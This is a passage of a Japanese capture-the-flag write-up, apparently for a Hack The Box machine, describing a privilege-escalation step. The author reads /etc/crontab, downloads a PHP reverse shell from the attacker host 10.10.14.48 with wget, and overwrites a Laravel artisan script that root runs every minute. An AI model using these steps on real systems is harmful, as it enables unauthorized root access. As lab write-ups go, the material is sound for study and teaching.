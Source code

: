 案の定 shell が取れます

## PE

crontab を見てみると

```
$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev ull 2>&1
#

```
/var/www/laravel/artisan を定期実行しています、なので/var/www/laravel/artisan を[php-reverse-shell.php](https://github.com/sanposhiho/MY_CHEAT_SHEET/blob/master/others/reverse_shell.md#php)に置き換えます

```
$ cd /var/www/laravel        
cd /var/www/laravel
$ wget http://10.10.14.48:8000/php-reverse-shell.php
wget http://10.10.14.48:8000/php-reverse-shell.php
--2020-07-03 21:22:58--  http://10.10.14.48:8000/php-reverse-shell.php
Connecting to 10.10.14.48:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [application/octet-stream]
Saving to: 'php-reverse-shell.php'

php-reverse-shell.p 100%[===================>]   5.36K  --.-KB/s    in 0s      

2020-07-03 21:22:58 (598 MB/s) - 'php-reverse-shell.php' saved [5493/5493]

$ mv php-reverse-shell.php artisan
mv php-reverse-shell.php artisan

```
host から wget を使用して upload しています
